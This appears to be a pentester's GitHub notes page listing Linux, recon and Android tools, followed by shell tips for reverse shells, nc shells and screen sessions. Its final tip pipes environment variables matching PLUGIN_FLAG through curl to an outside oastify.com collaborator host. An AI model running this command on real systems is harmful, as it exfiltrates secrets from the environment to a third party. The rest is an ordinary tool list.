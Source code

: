 ## Джентельменский набор

### Modern Linux

- [jq](https://github.com/jqlang/jq) - JSON parser
- [yq](https://github.com/mikefarah/yq) - YAML & CSV parser
- [xq](https://github.com/sibprogrammer/xq) - XML & HTML parser
- [gron](https://github.com/tomnomnom/gron) - JSON grep
- [gf](https://github.com/tomnomnom/gf) - grep wrapper
- [anew](https://github.com/tomnomnom/anew) - add to list if it doesn't contain this item
- [gee](https://github.com/hahwul/gee)- tee with filtering & formatting
- [choose](https://github.com/theryangeary/choose) - human readable awk print
- [lsd](https://github.com/Peltoche/lsd) - ls
- [fd](https://github.com/sharkdp/fd) - find with simplier syntax
- [sd](https://github.com/chmln/sd) - sed
- [cheat](https://github.com/cheat/cheat) - notes 
- [dog](https://github.com/ogham/dog) - dig 
- [pueue](https://github.com/Nukesor/pueue) - background multitasking
- [gef](https://github.com/hugsy/gef) - enhanced gdb
- [tmuxp](https://github.com/tmux-python/tmuxp) - tmux wrapper
- [glow](https://github.com/charmbracelet/glow) - Markup renderer

### Recon

- [concurl](https://github.com/tomnomnom/concurl) - concurrent curl
- [katana](https://github.com/projectdiscovery/katana) - crawler
- [unfulr](https://github.com/tomnomnom/unfurl) - URL parser 
- prips
- [ratelimit](https://github.com/projectdiscovery/ratelimit) - ratelimiting proxy
- [gau](https://github.com/lc/gau) get all cached urls

### Mobile

- [adbe](https://github.com/ashishb/adb-enhanced) - adb wrapper
- [scrcpy](https://github.com/Genymobile/scrcpy) - PC to Android clipboard share
## Невообразимые выкрутасы

Use `script` command to log history from your reverse shells:
```
script filename.out
```
Use [rlwrap](https://github.com/hanslub42/rlwrap) to add some comfort into nc shells.

To safe a process from killing during an accidental closing of the ssh shell you can run it in the screen utility:
```bash
screen -S nmap-scan # initsialize a new screen called nmap-scan
# Ctrl+A D to exit screen
screen -r nmap-scan # dip into previous screen again
```

To pass data into curl directly from stdin:
```bash
env | grep PLUGIN_FLAG | curl -X POST --data-binary @- https://id.oastify.com/oastify
```